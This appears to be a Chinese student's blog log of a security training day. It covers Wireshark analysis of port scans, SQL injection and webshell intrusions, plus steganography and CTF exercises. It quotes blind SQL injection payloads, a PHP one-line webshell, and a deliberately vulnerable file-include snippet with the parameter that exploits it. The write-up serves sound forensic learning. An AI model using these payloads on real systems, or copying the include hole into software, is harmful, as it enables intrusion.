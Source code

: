 ```yaml
---
layout:     post
title:      "实训记录-周二"
subtitle:   "Day-2 安全分析与电子取证实战"
date:       2025-04-22 12:00:00
author:     "hangyangjun"
header-img: "img/training.png"
tags:
    - 笔记
    - 记录
    - 学习
    - 实训
    - 安全
    - 渗透测试
    - 流量分析
    - 隐写
---
```

# 上午-流量分析实战
## 1 SYN半链接攻击流量分析
打开[电线鲨鱼](https://www.wireshark.org/download.html)  
分析**流量包**（.pcap）

可见大量`SYN半连接`且**端口号**都不一样  
所以攻击者在扫描网站开放端口  
过滤条件:  
`ip.src == 192.168.177.145 and tcp.flags.syn == 1 and tcp.flags.ack == 1`

## 2 SQL注入攻击流量分析一
过滤http之后  
找到攻击者使用的查询语句↓    
`id=1'and if(length(database())=0,1,0)--+`  
`id=1'and if(ascii(substr(database(),7,1))>79,1,0) --+`  
采用布尔盲注
关键词：  
you are in ...

## 3 SQL注入攻击流量分析二
过滤：  
`http and (ip.src==192.168.177.1 or ip.dst== 192.168.177.145)`   
找到攻击者使用的查询语句↓    
`id=1' and if(length(database())=1,sleep(5),0) --+`   
`id=1' and if((select%20substring(database(),1,1))="a",sleep(5),1) --+` 

是更高级的**时间盲注**

## 4 Web入侵溯源一
发现一堆  
`http.response.code == 404`  
明显是扫后台呢  
是 `head` 请求，对网站进行目录爆破  

踪流->http 流,找到↓  
`admin_name=admin&admin_pwd=密码&submit=%B5%C7%C2%BC&act=do_login`  
中的`admin_pwd`字段  
攻击者对其进行了爆破  

然后发现代码
`@eval($_POST['x']);`

a	首先，黑客通过目录扫描，获取了后台管理地址。  
b	然后通过弱口令爆破，获取到了 admin 账户的密码，登录了后台。  
c	在对后台功能进行一番探索之后，找到了 admin/tpl_manage.php 文件可以通过目录遍历查看并修改任意文件的内容。由此通过修改 `index.php` 的内容，插入了 php 一句话木马。  
d	最后，黑客向 index 页面的**一句话木马**传递 `phpinfo()` 确认了一句话写入成功。  

## 5 Web入侵溯源二
1、使用 `Wireshark` 打开 webattack2.pcap 数据包。  
2、因为是对 web 攻击进行溯源分析 ，所以我们只需要关注 `http` 协议的数据包 。所以在显示过滤器中输入 http 过滤出 http 协议的数据包。  
搜索条件:  
`http and ((ip.src==192.168.177.1 and ip.dst==192.168.177.145) or (ip.src==192.168.177.145 and ip.dst==192.168.177.1))`  
3、通过对数据包的观察，前面部分的数据包为正常访问的数据包。  
4、从数据包编号为 1544 的包开始，开始出现 `head` 请求，以及大量的 404 响应，推测黑客正在对网站进行目录**爆破**。  
5、爆破完成后，流量中出现对 `/dede/login.php` 的访问记录。因为 dede 为 dedecms 的默认后台地址。此时黑客可能已经获取到了**后台**路径，且开始尝试登陆。  
6、查看 POST 数据包的内容，发现提交内容的用户名为 admin，密码为 123456 等弱口令，猜测黑客此时在进行弱口令测试。  
7、随后，出现了 `index.php` 的**访问记录**，观察前一个数据包的返回内容，其返回的内容为 JS 跳转，跳转到 index 页面，猜测此时黑客可能已经登录成功。  
8、之后黑客访问了 dede/ad_add.php 这个页面，`dedecms` 在 5.7 版本，这个页面存在 `getshell漏洞`，黑客应该是想利用此漏洞来进行 getshell。查看黑客此次 `POST` 提交的内容。发现了一句话木马。可以证实黑客是进行了 `getshell` 的操作。  
9、之后出现了大量的对 ad_js.php 页面的 POST 请求，查看请求的内容，为 php 代码。此时黑客可能已经成功 getshell，使用菜刀工具对 `webshell` 进行了连接。  

# 下午-流量分析与二进制ctf取证

## 密码追踪
Wireshark  
过滤`http`或`ftp`
使用数据流分析即可  
好像没啥好说的
## 数据包文件分析
流量分析找到密文
## 流量数据隐写分析
藏在图片里  
## 数据包中的线索
按长度排序  
找到上传的图片，里面藏了密码  
在流量文件里分离出zip加密文件，里面藏了flag

## 文件分析(隐写)
比较简单了  
主要就是flag藏在图片二进制文件里了  
然后就是png图片改大小以及base32编码  
最后就是爆破一个压缩包

# 晚上-写了一会buuctf的题

大部分都是简单题，基本上会基础操作都能想出来。  
### 难点
<br>

```php
highlight_file(__FILE__);

if(isset($_GET['file'])) {
    $str = $_GET['file'];

    include $_GET['file'];
}
```
- 有一道题是👆  
存在文件包含漏洞  
所以在网址后传参`%file=/flag`  
即可得到flag  

- 还有一个就是**zip伪加密**，遇到好几次了  
原理就是本身文件没有加密，但是二进制标志位被标记为有加密   
可以参考：  
[csdn_zip伪加密](https://blog.csdn.net/xiaozhaidada/article/details/124538768)(其实讲的有点不准确)  

- 以及 [RAR文件格式学习（了解）](https://blog.csdn.net/Claming_D/article/details/105899397)  

- 再有就是一个爱因斯坦的图片,找了半天没找到压缩包的密码藏哪了,最后一查发现密码藏在图片属性里的备注里

- and 有一个是图片隐写,需要下一个工具 [Stegsolve](https://github.com/zer00d4y/stegsolve) 进行破解  
Red plane 0、Grenn plane 0、Blue plane0通道发现图片的上方有东西 bit order 调整为LSB即可发现隐藏信息 

